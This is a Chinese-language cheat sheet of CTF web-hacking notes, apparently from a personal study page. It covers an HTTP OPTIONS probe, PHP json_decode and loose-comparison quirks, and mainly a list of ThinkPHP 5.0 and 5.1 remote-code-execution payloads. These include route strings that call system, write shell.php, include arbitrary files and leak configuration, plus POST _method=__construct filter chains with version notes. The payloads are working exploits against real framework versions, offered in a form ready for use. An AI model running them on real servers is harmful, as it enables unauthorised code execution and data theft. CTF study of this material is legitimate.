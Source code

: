 ### OPTIONS

`curl -i -X OPTIONS "http://node4.anna.nssctf.cn:28513/index.php"`

OPTIONS 请求方法是用于描述目标资源所支持的通信选项。返回的响应可以列出该资源支持的方法，如 GET，POST，DELETE 等，也可以显示关于资源的其他信息。

如果PUT是允许的，可以上马

### json_decode和字符串弱比较

```php
json_decode($a)函数，正常情况下这个函数能将字符串转换成数组然后返回，但是少数情况下它会放飞自我。比如传入true会返回true,传入false会返回false，传入NULL会返回NULL
```

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

### thinkphp5之rce

```php
5.1x:
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

```php
5.0x:
?s=index/think\config/get&name=database.username // 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```

```bash
http://php.local/thinkphp5.0.5/public/index.php?s=index
post
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&filter[]=system&method=GET&get[]=whoami

# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
